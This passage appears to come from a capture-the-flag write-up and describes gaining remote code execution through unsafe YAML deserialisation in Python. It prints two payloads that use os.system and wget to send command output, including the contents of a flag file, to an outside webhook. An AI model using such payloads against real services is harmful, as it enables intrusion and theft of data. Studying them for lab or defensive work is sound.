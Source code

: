 When I send a YAML python object to gain RCE on the machine, it works but it return an error and gets executed blindly

```pyhton
!!python/object/apply:os.system ["wget https://webhook.site/f053fdbf-defe-4a5e-865f-83985dba2e37?cmd=$(pwd)"]
```

![](/assets/img/uploads/20231027203132.png)

![](/assets/img/uploads/20231027202917.png)
 
 So I used webhooks to get the flag by sending this payload:
 
```python
!!python/object/apply:os.system ["wget https://webhook.site/f053fdbf-defe-4a5e-865f-83985dba2e37?cmd=$(cat /flag.txt)"]
```
